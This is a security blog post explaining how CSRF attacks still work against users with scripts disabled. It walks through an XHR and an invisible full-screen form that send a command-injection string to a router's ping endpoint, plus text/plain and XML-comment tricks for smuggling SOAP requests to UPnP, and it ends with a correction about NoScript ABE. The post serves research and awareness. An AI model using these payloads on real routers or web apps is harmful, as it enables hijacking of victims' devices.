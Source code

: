 ```yaml
---
layout: post
title: "Exploiting CSRF under NoScript Conditions"
---
```


(Note: this is a cross-post of an article I wrote for Metasploit's blog. The original post can be found [here](https://community.rapid7.com/community/metasploit/blog/2014/04/15/exploiting-csrf-without-javascript).)

CSRFs - or [Cross-Site Request Forgery](https://www.owasp.org/index.php/CSRF) vulnerabilities - occur when a server accepts requests that can be “spoofed” from a site running on a different domain. The attack goes something like this: you, as the victim, are logged in to some web site, like your router configuration page, and have a valid session token. An attacker gets you to click on a link that sends commands to that web site on your behalf, without your knowledge.
 
These vulnerabilities can be especially handy to attackers when trying to exploit something on the the victim's LAN. The most common way to spoof requests is just by sending an [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) (XHR) from a site under the attacker’s control: all browsers will let you send GET/POST with arbitrary data and content-type to a cross-domain endpoint. Of course, due to the [Same Origin Policy](http://www.w3.org/Security/wiki/Same_Origin_Policy) (SOP), this is a “fire and forget” operation. There is usually no way to read the contents of the cross domain response:
 
<pre><code class="javascript">var xhr = new XMLHttpRequest;
xhr.open('POST', 'http://192.168.1.1/ping.cgi', false);
xhr.send('?pingstr='+encodeURIComponent('& echo abc123 > /tmp/bin; chmod ..'));</code></pre>

The usual advice is to disable Javascript on untrusted sites, either through whitelisting or blacklisting, and usually using something like Mozilla's [NoScript add-on](https://addons.mozilla.org/en-US/firefox/addon/noscript/). Does this mean NoScript users are immune to CSRF attacks? After all, without Javascript, an arbitrary domain can’t just fire off malicious XMLHttpRequests - they don't trigger when Javascript is disabled.
 
#### How does NoScript help prevent CSRF?
 
Unfortunately, NoScript doesn’t actually do much to prevent CSRF. The obvious example is an `<img>` tag, which does a GET request on the `src` attribute, regardless of what domain is used. But POST routes are often more desirable, since they are supposed to be used for mutating server state.
 
The typical way an attacker will handle `POST` CSRFs on NoScript users is with a form that submits data to a cross domain endpoint, and get the user to unknowingly click it. The submit button is styled to take up the entire screen, and voila! You have a 1-click exploit:
 
<pre><code class="html">&lt;form method='post' action='http://192.168.1.1/ping.cgi' target='f'&gt;
  &lt;input type='hidden' name=&quot;pingstr&quot; value=&quot;&amp; echo abc12312...&quot; /&gt;
  &lt;input type='submit' value=&quot;&quot; style=&quot;position:absolute;position:fixed;top:0;left:0;width:1200px;height:1200px;background:#fff;opacity:0;&quot; /&gt;
&lt;/form&gt;
&lt;iframe name='f' id='f' style='position:absolute;left:-500px;top:-500px;height:1px;width:1px'&gt;&lt;/iframe&gt;</code></pre>
 
So when the user clicks anywhere on the page, they submit the invisible form. The form’s target attribute is set to a hidden iframe, so that the unknown form submission does not even navigate the top-level page, so the user has no idea that a request just happened (this is handy for phishing).
 
Note: if the pingstr parameter looks familiar, you might have seen it in `exploit/linux/http/linksys_wrt110_cmd_exec`. Many of [Metasploit](https://metasploit.com)'s router exploits can be triggered via CSRF.
 
Now, how to get the user to click the page? There are a million ways to do this, but one easy and reliable trick is to just put a “Redirecting…” link at the top of the page. Eventually the user will get tired of waiting for the redirect to load and will click the link (I know I do this at least).
 
#### What about non-HTTP protocols?
 
It is known that the UPnP interfaces in certain routers will take SOAP requests that can be easily spoofed, which can be abused to forward internal ports from the LAN on to the Internet. With AJAX, arbitrary data can be inserted into a POST request, by calling ajax.send(data).
 
But if you try and use the <form> vector, you will find that you cannot send arbitrary data after the request headers. You can set enctype="text/plain" on the form, which prevent the parameters from being formatted and URL encoded:
 
<pre><code class="html">&lt;form method='post' enctype='text/plain' action='http://192.168.1.1/upnp.cgi'&gt;
  &lt;input type='hidden' name=&quot;blah&quot; value=&quot;&lt;SOAP document...&gt;&quot; /&gt;
  &lt;input type='submit' value=&quot;submit&quot; style=&quot;position:fixed;top:0;left:0;width:1200px;height:1200px;background:#000;opacity:0;&quot; /&gt;
&lt;/form&gt;</code></pre>

But there will always be some leading garbage on the request (in this instance, the "blah=" string):
 
    POST /ping.cgi HTTP/1.1
    Host: 192.168.0.5:5000
    Connection: keep-alive
    Content-Length: 23
    Cache-Control: max-age=0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Origin: http://attacker.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152 Safari/537.36
    Content-Type: text/plain
    Referer: http://attacker.com
    Accept-Encoding: gzip,deflate,sdch
    Accept-Language: en-US,en;q=0.8

    blah=<SOAP document...>
 
Depending on the protocol, you can often find ways to turn that leading garbage into something that is ignored by the server, like an XML comment:
 
    <input type='hidden' name="<!--" value="--><SOAP document...>" />

    POST /ping.cgi HTTP/1.1
    Host: 192.168.0.5:5000
    Connection: keep-alive
    Content-Length: 26
    Cache-Control: max-age=0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Origin: http://attacker.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152 Safari/537.36
    Content-Type: text/plain
    Referer: http://fiddle.jshell.net/_display/
    Accept-Encoding: gzip,deflate,sdch
    Accept-Language: en-US,en;q=0.8
    
    <!--=--><SOAP document...>

Finally, one interesting fact of `<noscript>` CSRF exploits is that they can often be triggered straight from the user’s web-based email. Most webmail applications will alert the user when the submit button is clicked, often with a message along the lines of “You are submitting data to an external page, are you sure you want to do this?”. One accidental “OK”, and the victim’s router/webapp/internal device is owned.
 
Now, how can a NoScript user prevent this from happening? The short answer for now is "don't click anything on the Internet". Not terribly practical. Of course, you can inspect the source of every page you visit, just like you already inspect the source code of every software application you intend to install. Right, nobody actually does that -- Javascript obfuscation alone makes this basically impossible. So, to reiterate in TL;DR format:
 
#### In 2014, default NoScript techniques do not actually protect you against CSRF.
 
Sorry for maybe ruining your day. If you have any advice as to how to practically resolve this problem, feel free to comment below.
 
Update: [NoScript ABE](http://noscript.net/abe/) allows you to blacklist certain types of requests
 
Big thanks to commentor @ma1 for pointing out the ABE component of NoScript, available in NoScript Preferences -> Advanced -> ABE. ABE allows you to define which origins are allowed to communicate to one another. By default, requests from non-LAN sites to a host on the LAN are blocked. My testing on this issue was flawed and my initial results were incorrect. It would be interesting to see how ABE stands up to a [DNS rebinding attack](https://en.wikipedia.org/wiki/DNS_rebinding) into a LAN. However, CSRFs are still very possible in noscript across other (non-LAN) origins, or from a "rogue" LAN host into another LAN host, unless you explicitly create rules to prevent this.
